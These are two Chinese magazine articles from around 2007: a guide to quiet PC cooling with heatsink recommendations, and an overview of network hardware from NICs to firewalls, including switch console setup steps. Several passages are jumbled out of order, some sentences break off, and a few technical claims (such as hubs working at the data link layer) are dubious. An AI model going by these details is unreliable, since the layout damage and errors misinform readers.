◆文 / TMG rsq

引言：“绿色北京，绿色奥运。”在泱泱中华以绿色文明的悠悠文化展现我们奥运精神的时候，正在准备装配电脑的你是否想过让自己的主机也“绿”起来呢？可能很多人在配电脑的时候都会想着怎样使自己的主机“凉”下来，从而选购一些转速大、功率高的散热风扇，可这样噪音也随之增加，造成了一定的噪声污染，也危害了自己的身心。怎样做到散热与静音的平衡呢？下面就向大家介绍一下使你的主机“绿”起来的方法。

#### 一、静音、散热的基本知识

人在正常讲话时声音约为40~50分贝，一般来说当超过55分贝就会影响到人的休息，所以电脑的基本达标线一般在50分贝左右，而如果低于35分贝就可以算得上是达到静音标准了。而在散热与静音的关系上，相信大家也都知道电脑运行过程中噪声的来源，没错，那就是安装在CPU、电源以及一些需要靠散热正常工作的硬件上的



#### 二、PC的散热方式

电脑的散热方式主要有以下几种：风冷散热、热管散热、水冷散热、半导体散热以及相变散热。

##### 1. 风冷散热
这是目前电脑上最常用的一种散热方式，一般在CPU上使用的都为这种方式，主要包括散热片与散热风扇两个部分。其工作原理为，利用散热片与CPU的接触将其热量导出，然后利用风扇转动加强空气流动将散热片上的热量散发到周围环境中（如图1所示）。

- 优点：价格相对低廉，结构比较简单，在安全与技术方面已趋于成熟。
- 缺点：会产生噪声，这也是本文着重强调的一点。另外其降温效果与使用寿命也有一定限度。

##### 2. 热管散热
热管又名热导管或超导管，热导系数是普通金属的100倍以上，是填充了特殊导热介质的空心管，从结构上分为蒸发段、绝热段和冷凝段三个工作段。热管的工作原理为：当一端受热，蒸发端的液体汽化而流向冷凝端，在冷凝端迅速液化把热量通过管壁和散热器传到管外，而气体再次液化而流回蒸发端，如此循环往复从而达到散热效果（如图2所示）。
- 优点：散热效果好，热阻相对小，使用寿命长，功耗与噪音非常低，符合本文所宣扬的“绿色”要求。
- 缺点：价格比较昂贵。


##### 3. 水冷散热
水冷散热的原理是利用水泵驱动水源流过热源，从而带走热量，以达到散热的效果（如图3所示）。
- 优点：散热效果特别好，并且没有噪音。
- 缺点：通风环境需求较高，所占体积大，使得安装不方便，并且容易漏水，造成安全上的隐患。


至于后面两种方式半导体散热与相变散热由于其设备本身比较昂贵，加上产品较少，普通的PC机上很难见到，对于一般的用户来说并不适合，在这里就不再介绍。

#### 三、静音及散热的改造方案

大家了解了电脑噪声的来源，那就是散热风扇。所以，如果希望大量降低噪声可以考虑换种散热方式，像热管散热、水冷散热都可供大家选择。当然，并不只有换掉风扇这一种方法，毕竟大多数电脑还是用这种散热方式，这时候，可以考虑一下安装一个风扇调速器，它可以满足用户在不同时段不同应用环境下的需要。下面笔者就对这些静音及散热的改造方案进行介绍。

##### 1. 风扇调速器的使用
顾名思义，“风扇调速器”是用来调节风扇转速的器件。目前，很多厂商都推出了用于CPU的风扇调速器。而市面上出现的调速器主要有两种，分别为自动调速器和手动调速器。自动调速器上带有热敏探头，可以根据CPU散热片的温度自动调节风扇的转速，而手动调速器分为低速、正常、高速三个档位，可以根据自己的需要进行手动调节，这样可以通过降低风扇转速来降低噪音，也延长了风扇的使用寿命。

##### 2. 热管的使用
通过上面对“热管散热”的叙述，相信大家对热管一定已经不陌生了。一般市面上的热管分为两类，一类为显卡导热管，一类为用于CPU上的导热管。对于高性能的显卡来说，厂商一般会为其配备一个散热效果比较好的产品，如果配备的是散热风扇的话一定会是一个高功率的，那样就会形成很大的噪音和消耗，建议大家在购买时选择一款配有热管的显卡，或者购买专门的显卡导热管代替风扇，这样不仅散热效果大大加强，更主要的是可以将噪音大大减少。而在CPU上，也可以考虑购买专门的导热管来代替，以实现真正的静音效果。当然，对于一些发烧友而言可以试试“热管加水冷”的超级改造，这里就不多叙述了。

##### 3. 机箱风道科学设置
机箱的设置对于电脑的散热起到至关重要的影响。首先大家需要明白两点：①空气进入机箱带走热量，由于密度的降低而升到机箱顶部即而离开的时候温度会高得多，这就是风道。②并不是安装的散热系统越多其散热性能就会越好，即使经过了上述方法的改造，如果布局不合理的话也达不到理想的散热效果。那么怎样的设置才能算得上科学呢？合理为机箱增加一定的风扇是必要的，但一定要注意的是数量与位置的控制，一般我们在机箱前后面板处各增加一个机箱风扇以形成一个辅助风道可以有助于CPU与显卡的散热（如图4所示）。
## 四、日常绿化工作

可能有些朋友对电脑内硬件的日常清理工作不太在意，一般来说电脑在运行一段时间后容易积聚一层灰尘，这些灰尘的积累不仅会产生一定的静电危害，还会增加噪音的影响。所以这些日常的工作一定要定时做，给自己的电脑一个绿色的环境。

### 1. CPU的清理

CPU是噪音来源最大的地方，其清理工作一般分为三个步骤：依次为清扫CPU风扇、散热片以及CPU插槽三个地方。

首先是CPU风扇，将风扇与散热片取下，分离，先用毛刷刷扇叶上的灰尘，然后用吹风机吹吹（注意，不要用嘴直接吹，容易产生静电），最后再给风扇轴承加专用的润滑油就一切OK了；接着是散热片，由于散热片上有些叶片比较密集，难于清扫，我们先要用吹风机将内部的灰尘吹出，然后可以用棉棍或者在细物上包裹一定的纸巾插入散热片的槽中进行清扫；最后是CPU插槽，它的清扫比较简单，用毛刷刷下周围的灰尘即可。

### 2. 显卡的清理

对于使用散热风扇的显卡，其清理工作主要分为四个步骤：依次为清扫显卡风扇、散热片、显存以及金手指。显卡风扇与散热片的清扫与上述CPU的步骤一样，这里就不多做说明，下面主要介绍一下显存和金手指的清扫。

清扫显卡显存首先用毛细刷刷掉上面的灰尘，注意，这里要用毛细刷，以免使器件损坏，然后用橡皮擦轻轻擦掉上面的污垢。而对于金手指的清理也需要用橡皮擦轻轻擦除，这样做有利于信号的传输。

### 3. 主板的清理

主板的清理是很重要的一项工作，如果所积灰尘过多容易造成短路而受到损坏。首先，像清理风扇一样，需要用毛刷将主板上的灰尘清理，然后用吹风机吹吹，一般可以直接清理，如果主板很脏的话就需要将其拆下来两面都清理。对于那些角落里的灰尘，比方说插槽、PCI等则可以用一张硬纸板将内部的灰尘刮出，再用细毛刷刷去周围散落的灰尘。这样就基本完成了主板的清理工作。

好了，通过以上的一系列介绍，大家一定对电脑的“绿化”工作有了一定了解，经过这样一番处理后的电脑无噪音、低功耗并拥有高效率的散热功能，完全符合我们当今以环保为主流的配置，也切实体现了我们对绿色的宣传与各个地方的应用。下面笔者就推荐几款散热器，希望对大家有所帮助。

### 推荐产品一：九州风神赤塔北桥散热器

许多超频的用户可能对于九州风神并不陌生，它是一家知名的散热器厂商。而近日九州风神为了满足使用北桥芯片超频用户的需求又推出了一款纯铜打造，热管散热的北桥散热器赤塔（如图5所示），目前市场上报价为110元。



赤塔采用的是热管散热的方式，外观上以两根U形设计的热管组成，从外部看大家可能会认为这是一款安装在CPU上的散热器，其实不然，U形管底部与散热片相连，这样的设计使得北桥芯片散热的热量可以快速通过导管传导至散热片散出，并通过CPU散热器散热出来的余风进行散热。

在散热鳍片和底座上，赤塔也下大工夫，设计采用了均匀分布的21片散热鳍片，不仅大大增加了散热的效果，还有效节省了机箱内的空间。在底座方面，则打磨得十分精细，能够与北桥芯片很好地贴合在一起。

> 点评：这款九州风神赤塔散热器采用纯铜设计，有效地增加了导热性能，厂商从各个角度考虑到了对北桥芯片的应用性。做工精细，价格低廉，并且没有噪声，性价比颇高，特别适合于有一定动手能力的DIY玩家。

### 推荐产品二：Tt TMG AT1显卡散热器

Tt公司为全球知名的散热器厂商，其推出的TMG系列显卡散热器一直大受欢迎，现在向大家推荐的便是Tt TMG AT1显卡散热器（如图6所示），市场报价为418元。

Tt的产品一向看起来高贵华丽，动感时尚。这款Tt TMG AT1采用了长条形状的鳍片配备全透明外观设计，风扇采用了8cm涡轮风扇，并具有两根0.6cm的铜热管，能够迅速将底座上吸收的热量传递到散热器片上散发出去。不仅在外观上大方前卫，并且能够最大满足高端用户的散热和静音需求。



> 点评：这款Tt TMG AT1显卡散热器做工精细，品质优良，与AT2相比由于采用了长条形状的鳍片设计，在外观上看起来要大一些。AT1底座采用纯铜设计，更加有效增加了导热性能，虽然价格有些偏高，但绝对是物有所值，感兴趣的朋友可以试一试。

### 推荐产品三：九州风神寒光冰甲CPU散热器

这款CPU散热器仍然是九州风神推出的产品，外观采用了精美的透明设计，可以清楚看到内部结构，12cm水晶眩彩风扇以及出于安全考虑而配备了金属网罩更是诠释出这款产品名为寒光冰甲的含义（如图7所示），目前市场报价为85元。



九州风神寒光冰甲散热器采用了镶铜设计，独创的DVT减震技术用于支架和风扇的连接上，在技术上做到了极大的减震功能，降低了风扇在运转过程中产生的噪音。它能够支持Intel LGA775平台，并且能够支持最新的酷睿2系列处理器，完全跟上了时代的潮流。

> 点评：这款九州风神寒光冰甲散热器无论从设计到技术都做到了时尚，主流，并且在上机运行时能产生五彩的霓虹灯光，更加突出了当今追求个性化的主流。另外，厂家还在减少噪音和安全领域上大做文章，而仅仅85元的低价使其成为了一款不可多得的产品。

综述：该说的都说完了，大家就赶紧行动起来，高喊我们的口号，将自己的主机装配成绿色、时尚高性能的PC机！

### 网络硬件技术及操作管理完全接触

◇文/风之扬

在21世纪的今天，我们的工作、学习和生活都与计算机网络息息相关。所谓计算机网络，就是利用通信线路将具有独立功能的计算机连接起来而形成的集合体。同时，借助于相应的网络软件，我们就能够轻松实现传递信息、共享资源等功能。目前，计算机网络正朝着高速化、综合化、全球化、智能化等方向发展，数据的传输量已经从以M级为衡量单位的时代跨越到以G级为衡量单位的时代，这也对网络硬件产品的性能、管理员的操作水平等提出了更高的要求。

一般来说，计算机网络通常包括以下关键要素：传输介质、网络硬件设备、通信协议、网络管理软件、网络管理人员。其中，传输介质可以是同轴电缆、双绞线和光纤等有线介质，也可以是微波、激光、红外线、通信卫星等无线介质；网络硬件设备则包括网卡、中继器、集线器（HUB）、交换机、路由器、防火墙等。在此基础上，丰富的网络应用硬件，如数据库服务器、网站服务器、工作站等要素紧密地结合在一起，给用户带来了极大的方便。本专题从这些关键要素出发，以最新流行的网络硬件技术和组网技术为基础，通过讲解常用网络硬件及其操作管理方法，为用户奉上一顿丰盛的网络大餐。

#### 一、基础篇：常见的网络硬件及2007年新趋势

##### 1. 网络运行的基础——网卡

网卡应该是最基础的网络设备了，它还可被称为网络适配器或网络接口卡（NIC），英文名为Network Interface Card。网卡的主要工作原理是整理计算机上发往网线上的数据，并将数据分解为适当大小的数据包之后向网络上发送出去。对于网卡而言，每块网卡都有一个唯一的网络节点地址，即MAC地址（物理地址），它由网卡生产厂家在生产时烧入ROM（只读存储芯片）中，且保证绝对不会重复。网卡接口一般有三种规格，分别是粗同轴电缆接口（AUI接口）、细同轴电缆接口（BNC接口）、无屏蔽双绞线接口（RJ-45接口）。接口的选择与网络布线形式有关，在小型共享式局域网中，BNC口网卡通过同轴电缆直接与其他计算机和服务器相连；RJ-45口网卡通过双绞线连接集线器（HUB），再通过集线器连接其他计算机和服务器。目前，网卡市场竞争十分激烈，常见的品牌包括：D-Link、TP-link、Intel、阿尔法、联想等。

从2007年市场情况来看，网卡技术发展主要有以下特点：

- （1）“千兆到桌面”的趋势
目前，千兆局域网发展十分迅猛，千兆网络为企业用户在内网开视频会议或传送大块头文件提供了很好的支持。对于大数据流量网络来说，千兆以太网网卡正逐步得到普及，新一代的PCI总线PCI-X也得到了很好的发展，它可为千兆以太网网卡、基于Ultra SCSI320的磁盘阵列控制器等高数据吞吐量的设备提供足够的带宽。以D-Link的千兆网卡DGE-530T为例，这是一款标准的台式机铜缆PCI网卡，可安装到PCI扩展插槽内。这款网卡支持10/100/1000Mbps自适应，可以自动侦测全、半双工模式，自动匹配网络速度。作为一种比光纤接入更经济的选择方案，该网卡使用用户可立即升级到千兆位，而不需要安装新的昂贵的光缆。当连接到一台支持流量控制的千兆交换机时，如果发生信号溢出就会延迟传输，直到交换机准备好再次接收新数据时，它才恢复正常工作。该网卡还可识别以太网帧VLAN标记，能够配合具有VLAN功能的交换机对用户的PC进行配置。目前，该款网卡已经降价到百元以下。如图1所示。
- （2）无线网卡日趋火热
在无线网卡市场上，TP-link旗下产品以价格优势而为消费者关注，但是作为其竞争对手的D-Link也不示弱，丰富的产品价格战线是其对抗TP-link的法宝。根据互联网消费调研中心的数据，在当前最受用户关注的前十款无线网卡产品中，TP-link、D-Link与LINKSYS三家公司的产品备受关注。在价位和产品上，100元～200元产品无线网卡占据主流地位。此外，由于USB接口的产品只要安装驱动后即可以为台式机电脑使用，也能为笔记本电脑使用，因而更为消费者关注。在技术标准上，由于IEEE 802.11g与IEEE 802.11b这两种标准可以相互兼容使用，因而能够被广泛采纳。
TP-Link TL-WN510G是目前广受关注的一款无线网卡，所采用的技术也很具有典型性。它使用了TP-LINK“域展”无线传输技术，传输距离是普通产品的2～3倍，传输范围可以扩展到4～9倍。在安全方面，它支持64/128/152位WEP数据加密，支持WPA、IEEE 802.1X、TKIP、AES等加密与安全机制。同时，TL-WN510G内置智能天线，可适应不同的工作环境，使笔记本电脑用户方便地工作。接入无线网络，同时支持无缝漫游功能。如图2所示。







> <小知识>
无线网卡和无线上网卡的区别。一般而言，无线网卡主要是指无线局域网卡，即只能在局域网使用，或是局限于无线路由，不能够自行拨号上网。而无线上网卡类似于手机，可以使用一种UIM卡，进行拨号上网。用户需要一个手机（无线上网卡）和一个SIM卡（UIM卡），两者结合起来就可以进行无线上网。UIM卡需要充值，一般都是包年的形式，也有3个月或半年等期限。

##### 2. 信号的加油站——中继器和集线器

要扩展局域网的规模，就需要用通信线缆连接更远的计算机设备，但是，当信号在线缆中传输时会受到干扰，这时就会产生信号衰减。当信号衰减到一定程度时，将会出现不能识别的情况，从而影响计算机之间的通信。因此，当局域网物理距离超过了允许的范围时，需要使用中继器将该局域网的范围进行延伸。中继器（Repeater）用于延伸同型局域网，在物理层连接两个网，在网络间传递信息，它在网络间传递信息起信号放大、整形和传输作用。目前，常见的中继器品牌有FiBit、SPACECOM等。以FiBit的FB-D11/21MS系列产品为例，它们主要实现光信号在单模光纤与多模光纤介质之间的透明传输，可在850nm、1310nm多模光纤（2千米）和1310nm、1550nm单模光纤（20千米、40千米、60千米及以上）之间进行转换，支持100M快速以太网、155M ATM乃至千兆以太网的数据速率，并被广泛应用在局域网、广域网的互联及数据通信领域，这些产品既可以单台使用（实现单、多模转换），也可成对使用。

集线器称为HUB，是一种集中完成多台设备连接的专用设备，它主要工作于OSI的数据链路层。集线器提供了检错能力和网络管理等功能，价格便宜是它最大的优势。由于集线器属于共享型设备，导致了在繁重的网络中，效率变得十分低下，所以我们在中、大型的网络中看不到集线器的身影。集线器有三种类型：对被传送数据不做任何添加的Passive HUB，被称为被动集线器；能再生信号，监测数据通信的Active HUB，被称为主动集线器；能提供网络管理功能的Intelligent HUB，被称为智能集线器。选择集线器时，主要从网络站容量考虑端口数（8口、16口或24口），从数据流考虑速度（10M、100M）等方面考虑。目前，市面上集线器型号、类型很多，比较知名的品牌有TP-Link等。以TP-link TL-HP16MU为例，该产品适用于中小型办公网络，有16个10M RJ-45端口，并提供了Uplink级联口，方便网络扩容；在LED面板灯上，能够动态显示电源、网路通断、网络碰撞等情况，通过出错端口自动隔离，可以保证网络的正常运行。如图3所示。



##### 3. 信号的马路——网络传输介质

网络电缆用于网络设备之间的通信连接，常用的网络电缆有双绞线、细同轴电缆、粗同轴电缆、光纤等。此外计算机网络还使用无线传输媒体（包括微波、红外线和激光）、卫星线路等传输媒体。

- （1） 双绞线

这是将一对或一对以上的双绞线封装在一个绝缘外套中而形成的一种传输介质，是目前局域网最常用到的一种布线材料。为了降低信号的干扰程度，电缆中的每一对双绞线一般是由两根绝缘铜导线相互扭绕而成，双绞线也因此而得名。其原理是，如果外界电磁信号在两条导线上产生的干扰大小相等而相位相反，那么这个干扰信号就会相互抵消。如图4所示即为双绞线，采用了单层铝箔屏蔽。



按照是否拥有金属屏蔽，可将双绞线分为屏蔽双绞线（STP）和非屏蔽双绞线（UTP）两大类。屏蔽双绞线要求整个系统全部是屏蔽器件，包括电缆、插座、水晶头和配线架等，同时建筑物也要有良好的地线系统。但是，在实际应用中，由于价格昂贵、施工难度大、设备要求比较严格，在普通网络布线中，一般只采用非屏蔽双绞线。
按照电气性能的不同，可将双绞线分为：五类、超五类、六类、七类双绞线等。一般来说，电缆级别越高，可提供的带宽也就越大。超五类可非屏蔽双绞线可提供155Mbps的带宽，六类非屏蔽双绞线和七类双绞线则可提供高达1000Mbps的带宽。目前，超五类和六类非屏蔽双绞线的应用范围比较大。与普通5类双绞线比较，超5类双绞线在传送信号时衰减更小，抗干扰能力更强，在100M网络中，用户设备的受干扰程度只有普通五类线的1/4。当然，在一些需要完美实现1000Mbps传输速率或有更多升级要求的场合，可以直接选择六类非屏蔽双绞线。

> <小知识>
六类非屏蔽双绞线在
外形和结构上与超五类双绞线区别较大，不仅增加了绝缘十字骨架，而且电缆直径也更粗。电缆中央的十字骨架随长度的变化而旋转角度，它的作用主要是保持四对双绞线的平衡位置，提高电缆的平衡性和抗干扰。

- （2） 同轴电缆

同轴电缆中心轴线是一条铜导线，外加一层绝缘材料，在这层绝缘材料外边由一根空心的圆柱网状铜导体包裹，最外一层是绝缘层。与双绞线相比，同轴电缆的抗干扰能力强、屏蔽性能好、传输数据稳定，价格也便宜，而且它不用连接在集线器或交换机上即可使用。根据传输频带的不同，同轴电缆可分为基带同轴电缆和宽带同轴电缆两种类型。按直径的不同，同轴电缆可分为粗缆和细缆两种。下面分别讲解。如图5所示。



粗缆适用于较广局域网的网络干线，布线距离较长，可靠性较好。由于直径相当粗，因此它的弹性较差，不适合在室内狭窄的环境下架设，而且RG-11连接头的制作方式也相对要复杂许多，并不能直接与电脑连接，它需要通过一个转接器转成AUI接头，然后再接到电脑上。由于粗缆的强度较强，最大传输距离也比细缆长，因此粗缆的主要用途是扮演网络主干的角色，用来连接数个由细缆所结成的网络。

细缆近年来发展较快，在计算机局域网中，如果没有特殊要求，一般都使用细缆组网。细缆一般用于总线型网的布线连接。利用T型BNC接口连接器连接BNC接口网卡，两端头需安装终端电阻器。细缆网络每段干线长度最大为185米，每段干线最多接入30个用户。如要拓宽网络范围，需使用中继器，如采用4个中继器连接5个网段，使网络最大距离达到925米。细缆的安装比较容易，而且造价低，但由于受网络布线结构的限制，其日常维护不太方便，一旦一个用户出故障，便会影响其他用户的正常工作。

同轴电缆的优点很明显，能够在相对长的无中继器的线路上支持高带宽通信。而其缺点也是显而易见的：一是体积大，细缆的直径就有3/8英寸粗，要占用电缆管道的大量空间；二是不能承受缠结、压力和严重的弯曲，这些都会损坏电缆结构，阻止信号的传输；三是成本高。而所有这些缺点正是双绞线能克服的。因此，在现在的局域网环境中，基本已被基于双绞线的以太网物理层规范所取代。

> 实际使用中，在细缆两端都必须安装BNC接头，并通过专用T型接头与网卡相连接的。同轴电缆与T型连接器是依赖于BNC接插件进行连接的。T型接头与BNC接插件同是细同轴电缆的连接器，它对网络的可靠性有着至关重要的影响。最后还要有终端匹配器安装在同轴电缆（粗缆或细缆）的两个端点上，它的作用是防止电缆无匹配电阻或阻抗不正确。专用T型接头如图6所示。



- （3） 光纤

光纤是新一代传输介质，它不会向外界辐射电子信号，所以使用光纤介质的网络无论是在安全性、可靠性还是性能方面都有了很大提高。光纤传输的带宽大大超出铜质线缆，所支持的最大连接距离达2千米以上，是组建较大规模网络的必然选择。

现在有两种不同类型的光纤，分别是单模光纤和多模光纤。两者传输距离有很大差别，一般来说，多模光纤为200米～500米、单模光纤则可达10千米～100千米。多模光纤一般被用于同一办公楼或距离相对较近的区域内的网络连接。使用单模光纤传递数据的质量更高，传输距离更长。单模光纤只允许一束光线穿过光纤。因为只有一种模态，所以不会发生色散。所以，单模光纤通常被用来连接办公楼之间或地理分散更广的网络。如果使用光纤作为传输介质，还需增加光端收发器等设备。

> 所谓“模”就是指以一定的角度进入光纤的一束光线。多模光纤使用发光二极管（LED）作为发光设备，而单模光纤使用的则是激光二极管（LD）。多模光纤允许多束光线穿过光纤。因为不同光线进入光纤的角度不同，所以到达光纤末端的时间也不同。这就是我们通常所说的模色散。色散从一定程度上限制了多模光纤所能实现的带宽和传输距离。基于这种原因，多模光纤一般被用于同一办公楼或距离相对较近的区域内的网络连接，而单模光纤通常被用来连接办公楼之间或地理分散更广的网络。

基于光缆的光纤接入技术是未来宽带网络的发展方向，它的发展离不开光纤接入设备发展和支持。光纤接入网的设备大大提升了光纤接入网的数据传输和处理能力，并且可以带来两大优越性。首先，解决了接入线路的远程传输问题，使光纤接入网的覆盖范围更广阔。其次，可以满足用户对于多种宽带新业务的需求，并能够提高新业务数据质量，这就从核心技术上解决了传统铜线接入网的“瓶颈”问题。目前，光纤接入设备主要有：①光纤通信接续元件（适用通信及计算机网络终端连接），如：光纤跳线、光纤接头（盒）等；②光纤收发器（适用计算机网络数据传输），如光纤盒、光纤耦合器和配线箱（架）等；③光缆工程设备、光缆测试仪表（大型工程专用），如光纤熔接机、光纤损耗测试仪器等。以BRO-WAY BR-C108SC.S60I（双电口光纤收发器）为例，该收发器符合IEEE802.3、IEEE802.3u、IEEE802.3z等协议标准，最大传输距离达60000米。如图7所示。



##### 4. 网络上的关卡——各种网络互连设备

常用局域网互连有交换机、路由器以及网关等。

- （1） 交换机

交换机是一种基于MAC（网卡的硬件地址）识别，能完成封装转发数据包功能的网络设备。交换机可以“学习”MAC地址，并把其存放在内部地址表中，通过在数据帧的始发者和目标接收者之间建立临时的交换路径，使数据帧直接由源地址到达目的地址。随着网络部署新应用和融合多业务的需求日益迫切，单一交换机需要拥有丰富的功能以提供更多的支持，与此同时，复杂的网络环境加剧了网络管理的难度，通过智能交换设备进行网络的集中管理，不仅简化了管理步骤，而且降低了部署和维护的成本。在技术发展趋势的把握上，越来越多的网络厂商更加注重交换设备的管理性能和功能融合，如单一IP地址管理、远程控制等功能成为智能交换机不可或缺的重要特性。从2007年交换机的市场发展趋势来看，智能交换机的需求量有了明显上升，越来越多的用户更愿意将智能交换机作为设备采购的首选。此外，为了承载远程教学、呼叫中心、视频会议、VoIP语音服务、VOD视频点播等对带宽和时延敏感的应用，智能化的以太网交换机还提供了丰富的QoS策略，保证了关键业务的快速、及时转发。

根据传输介质和传输速度，网络交换机可分为以太网交换机、快速以太网交换机、千兆以太网交换机、10千兆以太网交换机、ATM交换机、FDDI交换机。以太网交换机目前占局域网交换机

- 光纤接入设备主要有：
- ①光纤通信接续元件（适用通信及计算机网络终端连接），如：光纤跳线、光纤接头（盒）等；
- ②光纤收发器（适用计算机网络数据传输），如光纤盒、光纤耦合器和配线箱（架）等；
- ③光缆工程设备、光缆测试仪表（大型工程专用），如光纤熔接机、光纤损耗测试仪器等。

的主流，它几乎成为局域网的标准交换设备。面对市场上林林总总的交换机产品，用户首先需要分析各种交换机的性能指标，选择其中性能最优的产品。比较重要的技术指标有外型尺寸的选择、支持的网络类型、最大可堆叠数（可堆叠交换机的堆叠单元中所能堆叠的最大交换机数目）、机架插槽数（机架式交换机所能安插的最大模块数）、扩展槽数（带扩展槽交换机所能安插的最大模块数）、背板带宽（每秒通过的数据包个数，背板带宽越高，所能处理数据的能力就越强）、MAC地址表大小、可管理性、是否支持VLAN等。

> 区分单工、半双工和全双工。单工表示传送信息始终是一个方向的通信；在半双工模式中，通信信道的每一端可以是发送端，也可以是接收端，但在同一时刻，信息只能有一个传输方向；全双工通信则是在同一时刻、一个信道传输信息向一个方向，而在另一个信道传输的信息向反方向。

网，就要使用路由器（Router）了。路由器用于连接网络层、数据层、物理层执行不同协议的网络，能够识别数据的目的地地址所在网络，并能从多条路径中选择最佳的路径发送数据。这样，协议的转换可以由路由器完成，从而消除了网络层协议之间的差别，因此适合于连接复杂的大型网络。

目前，常见的交换机品牌有D-Link、华为、中兴、CISCO（思科）、3Com、网件、H3C、联想等。2007年以来，比较热门的交换机类型有TP-Link TL-SF1005D、CISCO WS-C2950-24、D-Link DES-1008D、H3C Quidway S1026T、华为S3026C-SI等。以CISCO WS-C2950-24为例，传输速率为10Mbps/100Mbps，在传输模式上支持全双工。它内嵌了思科集群管理套件（CMS），可以通过标准的Web浏览器配置和诊断多个Catalyst桌面交换机。除了思科CMS软件以外，Cisco Catalyst 2950系列交换机还提供了多种基于简单网络管理协议（SNMP）网络管理平台（例如CiscoWorks）的管理工具。通过Cisco Express Setup，用户现在可以在标准Web浏览器中设置交换机，从而不需要使用更加复杂的终端模拟程序和学习命令行界面（CLI）。这样，就可以让缺乏经验的人员也可以迅速、方便地设置交换机，从而降低了部署成本。此外，思科标准镜像软件为基本的数据、语音和视频服务提供了Cisco IOS软件功能；对于那些需要更高安全性、高级QoS和更高可用性的网络而言，思科增强镜像软件可以为网络边缘的部署提供多种智能化服务，例如速率限制、QoS重新分类和安全过滤等。如图8所示。

> 集线器、交换机和路由器的区别。集线器是纯硬件，用于连接网络终端、不能打破冲突域和广播域。交换机拥有软件系统，可用于连接网络终端，能够打破冲突域，但是不能分割广播域。路由器拥有软件系统，用于连接网络，可以打破冲突域也可以分割广播域，是连接大型网络的必备设备。此外，路由器提供了防火墙等服务。

工作站（如Cisco的CiscoWorks）、TFTP服务器等，还可以通过Telnet协议、Web界面等直接进行配置。下面，以Windows XP中计算机与交换机通信为例讲解。具体步骤如下：

-   第1步：利用Console线将计算机的串行口与交换机的Console端口连接在一起，打开计算机的电源开关。
-   第2步：选择“开始”→“程序”→“附件”→“通讯”→“超级终端”命令，显示“连接描述”对话框。在“名称”框中输入该连接的名称，如“LINK”，用于标识与交换机的连接。如图9所示。

对于可网管交换机而言，可以通过Console端口直接连接的方式和通过集线设备间接连接的方式进行管理。常见的配置源包括：控制台、虚拟终端、网管

-   第3步：单击“确定”按钮，显示“连接到”对话框。在“连接时使用”下拉列表中选择所使用的串行口，通常为“COM1”。
-   第4步：单击“确定”按钮，显示串口“属性”对话框。在“波特率”下拉框下拉列表中选择9600选项，其他各项采用默认设置。
-   第5步：单击“确定”按钮，显示“超级终端”窗口。打开交换机电源后，连续按回车键，即可显示交换机初始界面。计算机与交换机连接成功后，就可以以菜单方式或命令行方式对交换机进行配置和管理了。需要注意的是，如果在计算机屏幕上未能显示交换机的启动过程，则可能是通信端口选择错误，需要重新配置超级终端。另外也可能是Console线或连接有问题，可以逐一排查。

### (2) 路由器

假如需要连接两种不同类型的局

目前，常见的路由器品牌包括：TP-link、D-Link、华为、CISCO（思科）、LINKSYS、Netcore、网件、阿尔法等，此外，还有不少国际知名品牌，如Avici、Chiaro、Ciena、Foundry、Juniper朗讯、马可尼、NEC、北电等。本年度比较热门的路由器产品包括：TP-Link TL-R402M/460、D-Link DI-504/604+、CISCO 2811、阿尔法AFR-G3、腾达TEI6611S等。值得注意的是，路由器的安全问题越来越受到重视，用户的需求由过去的只要求连接，转而为寻找整合安全特性、QoS和支持VoIP的平台。在这个风潮之下，具有防火墙、加密VPN、带宽管理以及URL过滤等安全功能的路由器产品应运而生。值得关注的是，随着无线产品的推广，无线路由器市场关注度持续增长，无线路由器已经成为现在家庭组网设备的首选。2007年以来，无线路由器主打产品基本以IEEE802.11g标准的54M无线路由为主，以IEEE802.11g标准的108M无线路由器为辅，IEEE802.11b标准的11M产品已经开始慢慢地淡出了市场，而一些更高的125M无线路由器因为具有的高速和一些特有功能开始受到更多用户关注。
以CISCO 2811为例，该产品通过了专门的优化，可安全、迅速地提供数据传输、语音和视频服务，并重新定义了大中型企业路由器标准。Cisco 2800系列路由器分为2801、2811、2821和2851等型号。Cisco 2811是一款模块化设计的产品，它内建了256MB DRAM和64MB Flash ROM（最大可扩展至760MB/128MB），产品具备两个USB1.1接口和两个10/100M以太网端口，可支持T1/E1/xDSL等多种线路连接。此外，Cisco 2811有四个接口卡插槽，支持HWIC、WIC、VIC或WWIC模块，而一个网络模块插槽可支持NM和NME模块。极大地方便管理员进行管理。而且，产品支持IEEE 802.3X网络协议、Cisco ClickStart和SNMP网管协议，内置了网络防火墙，使产品安全性得到了很大提高。如图10所示。

进行路由器配置时，一般通过专用电缆将计算机与路由器的配置端口相连，在计算机上完成配置操作。路由器的配置端口有两个：Console端口和AUX端口。其中，Console端口是典型的配置端口，使用Console线直接连接至计算机的串口，利用终端仿真程序（如Windows下的超级终端）在本地配置路由器。路由器的Console端口多为RJ-45端口，并标记有“CONSOLE”字样；AUX端口为异步端口，主要用于远程配置，也可用于拨号备份，可与MODEM连接。AUX端口通常与Console端口放置在一起，并标记有“AUX”字样。

## 应用方案

### (3) 网关

如果两个网络不仅网络协议不一样，而且硬件和数据结构都大相径庭，那么就得用网关（Gateway）。网关（Gateway）用于连接网络层之上执行不同协议的子网，组成异构的互连网，它能实现异构设备之间的通信，对不同的传输层、会话层、表示层、应用层协议进行翻译和变换。

##### 5. 网络安全的保镖——防火墙

随着互联网发展日渐蓬勃，来自黑客非法入侵及病毒的威胁越来越严重，企业对于功能更强大的防火墙的需求也越来越迫切。防火墙是软硬件的结合体，架设在网络之间可以确保安全的连接。它可以设置为Internet、Intranet的网关器，以定义一个规则组合或安全政策，以控制网络间的通信，有效记录各种Internet应用服务的存取信息、隐藏企业内部资源、减少企业网络暴露的危机等。所以，正确安全的防火墙架构必须让所有外部到内部或内部到外部的封包都必须通过防火墙，且唯有符合安全政策定义的封包，才能通过防火墙。如今，多媒体应用越来越普遍，它要求数据穿过防火墙所带来的延迟要足够小。为了满足这种需要，一些防火墙制造商还开发了基于ASIC的防火墙和基于网络处理器的防火墙。从执行速度的角度看来，基于网络处理器的防火墙也是基于软件的解决方案，它需要在很大程度上依赖于软件的性能。
